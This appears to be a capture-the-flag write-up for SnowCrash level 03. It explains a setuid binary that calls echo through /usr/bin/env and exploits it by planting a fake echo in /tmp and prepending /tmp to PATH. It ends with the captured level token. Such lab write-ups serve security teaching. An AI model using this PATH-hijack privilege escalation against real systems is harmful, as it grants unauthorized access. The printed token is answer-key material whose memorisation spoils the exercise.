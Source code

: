 # Level 03

### linux privilege escalation using path variable

We can see a file: `level03` which is an executable with special rights.

```
level03@SnowCrash:~$ ls -l ./level03
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 ./level03
```

`s` is a special chmod used to indicate that the group will be set to the owner of the file, here `flag03`. So it means that when executed, we will be considered as member of this group.

Now we can also take a look at the file, when executed we are prompted with `Exploit me`.

We can decompile it using several tools, here's the `Cutter` output, but you can also use [Dogbolt](https://dogbolt.org/) for example.

### level03 decompiled:
```c
void main(void)
{
    undefined4 uVar1;
    undefined4 uVar2;
    int argc;
    char **argv;
    char **envp;

    // int main(int argc,char ** argv,char ** envp);
    uVar1 = getegid(); // get group
    uVar2 = geteuid(); // get user
    setresgid(uVar1, uVar1, uVar1); // set group
    setresuid(uVar2, uVar2, uVar2); // set user
    system("/usr/bin/env echo Exploit me");
    return;
}
```

To put it simply; it sets the group and user as the one used when the program is executed, here `flag03`. Then it spawns a process using `system()`. It will try to use echo given in the `/usr/bin/env` list which is what interests us.

## Exploit

Using this piece of information we can then create a fake `echo` and add it at the start of our path. What will hapen is that, when we execute `level03`, `echo` will be replaced by our custom [echo](./echo) and executed as `flag03` and not as `level03`. It means that we can use it to replace echo with a simple `getflag`.

```
echo "/bin/sh -c 'getflag'" > /tmp/echo
chmod 755 /tmp/echo
export PATH=/tmp:$PATH
```

```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

And voilà! We got a token!

## Token

qi0maab88jeaj46qoumi7maus
